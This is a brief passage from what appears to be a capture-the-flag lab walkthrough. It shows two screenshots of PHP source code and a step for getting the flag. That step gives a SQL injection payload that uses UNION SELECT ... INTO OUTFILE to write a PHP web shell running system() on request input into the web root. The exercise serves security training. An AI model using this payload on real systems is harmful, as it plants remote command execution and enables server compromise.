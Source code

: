 <figure><img src="../../../../.gitbook/assets/source-code-search-php.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/include-config-php.png" alt=""><figcaption></figcaption></figure>

11. Find the flag by using a webshell.

Inject this payload into the form.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/webshell.php'-- -
```

